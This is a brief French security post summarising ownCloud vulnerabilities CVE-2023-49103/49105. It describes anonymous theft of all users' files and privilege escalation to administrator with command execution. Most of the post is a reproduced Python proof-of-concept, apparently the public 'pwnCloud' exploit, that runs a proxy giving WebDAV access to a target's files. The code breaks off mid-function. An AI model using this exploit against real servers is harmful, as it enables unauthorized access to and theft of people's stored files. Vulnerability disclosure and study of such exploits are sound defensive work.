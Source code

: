 Ambionics a sorti un très bon article sur ce sujet : https://www.ambionics.io/blog/owncloud-cve-2023-49103-cve-2023-49105

### En bref

En résumé, il existe 2 scénarios d'exploitation possibles : 

1. **Scénario anonyme** : récupérer tous les fichiers de n'importe quel compte en étant anonyme.
2. **Scénario authentifié** : élever ses privilèges de simple utilisateur en tant qu'administrateur afin d'exécuter des commandes.


👇 Un PoC est disponible sur [GitHub](https://github.com/ambionics/owncloud-exploits/blob/main/pwncloud-webdav.py) et juste en dessous

```python
#!/usr/bin/env python3
# Owncloud Privilege Escalation CVE-2023-49105 pwnCloud
# 2023-12-05
# cfreal
#
# DESCRIPTION
#
# Exploit demonstrating a consequence of CVE-2023-49105: arbitrary access to WEBDAV
# resources, including every file stored by a user.
#
# EXAMPLE
#
# $ ./pwncloud-webdav.py http://target.com/ admin
#
# REQUIREMENTS
#
# requires ten (https://github.com/cfreal/ten)
#

import hashlib
from http.server import SimpleHTTPRequestHandler, ThreadingHTTPServer

from ten import *
from tenlib.transform import url as turl


@entry
def main(url: str, username: str, listen: str = "localhost:8800") -> None:
    # Setup ProxyHandler
    ProxyHandler.session = ScopedSession(url)
    # ProxyHandler.session.burp()
    ProxyHandler.username = username

    # Display info
    msg_success(f"Proxy server running on {listen}")

    dav_url = f"dav://anonymous@{listen}/remote.php/dav"

    msg_info(f"Browse user files: {dav_url}/files/{username}")
    msg_info(f"Browse everything: {dav_url}")

    # Setup HTTP server
    listen_host, listen_port = listen.split(":")
    listen_port = int(listen_port)

    proxy_server = ThreadingHTTPServer((listen_host, listen_port), ProxyHandler)

    try:
        proxy_server.serve_forever()
    except KeyboardInterrupt:
```